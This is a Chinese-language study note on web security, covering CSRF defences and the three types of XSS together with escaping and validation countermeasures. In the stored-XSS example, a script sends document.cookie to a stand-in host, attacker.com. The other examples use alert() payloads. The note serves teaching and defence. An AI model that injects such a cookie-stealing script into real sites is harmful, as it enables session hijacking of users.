 - 可以通过设置 cors，来判断请求的域是否安全

- 然后设置 http only cookie来阻止js访问 cookie

- 不要使用get方法来执行状态更改的敏感操作

- 验证请求来源

  - 如检查`Referer`头信息，`Referer`是 HTTP 请求头中的一个字段，用于标识请求的来源页面 URL。
  - 缺点：
    - **易被篡改**：攻击者可通过一些手段修改`Referer`字段值，如使用代理服务器等，使非法请求伪装成合法来源。

### xss跨站脚本攻击

攻击者通过在目标网站**注入恶意脚本**，网站在处理这些输入时，没有对其进行严格的过滤和转义，就将其输出到页面上，当用户访问该网站时，恶意脚本会在用户浏览器中执行，从而窃取用户信息、进行会话劫持等恶意操作。

XSS攻击通常分为三种类型：存储型（Stored）、反射型（Reflected）和DOM型（DOM - based）。

#### **存储型**（持久型）——脚本存储在服务器

攻击者事先将恶意脚本代码**上传到目标网站的服务器**上，当其他用户访问包含恶意代码的页面时，他们的浏览器会执行这些代码。

例如：攻击者在一个论坛网站上发表了一个包含恶意脚本的评论。其他用户访问这个评论时，恶意脚本会被执行，窃取他们的会话cookie并发送到攻击者的服务器上。

```html
<!-- 攻击者发布的评论 -->
<script>
fetch("http://attacker.com/steal?cookie=" + document.cookie);
</script>
```

#### **反射型**（非持久型 / 参数型）——脚本在url中

攻击者诱使用户点击包含恶意脚本的链接，服务器接收请求后，将恶意脚本反射到响应页面中，用户浏览器执行该脚本。例如，搜索页面的 URL 中包含搜索关键词，若服务器未对关键词进行过滤，攻击者可构造包含恶意脚本的搜索链接，诱导用户点击。

例如：攻击者将恶意脚本包含在 URL 中，然后诱使用户点击该 URL。当用户打开 URL 时，恶意脚本会在用户的浏览器中执行，执行一些恶意操作。

```html
http://vulnerable-website.com/search?query=<script>alert('XSS')</script>
```

#### **DOM 型 XSS**——脚本操作 DOM

攻击者通过修改页面的 DOM（文档对象模型）结构，注入恶意脚本。这种攻击方式不依赖服务器端的处理，而是在客户端直接修改页面的 DOM 元素，从而执行恶意脚本。

```html
<!-- 用户输入 -->
<img src=x onerror="alert('XSS')">
<!-- 页面展示 -->
<div class="post-content"><p>这是一个帖子</p><img src=x onerror="alert('恶意代码')"></div>
```


#### **防范措施**

- **输入验证和过滤**：对于用户输入的数据，应进行验证和过滤。仅允许预期的、安全的字符和内容通过，拒绝包含特殊字符的输入。
- **转义输出**：在将用户输入的数据插入到 HTML、JavaScript 或其他上下文中之前，务必对其进行适当的转义。这可以防止浏览器解释用户输入的内容为可执行代码。
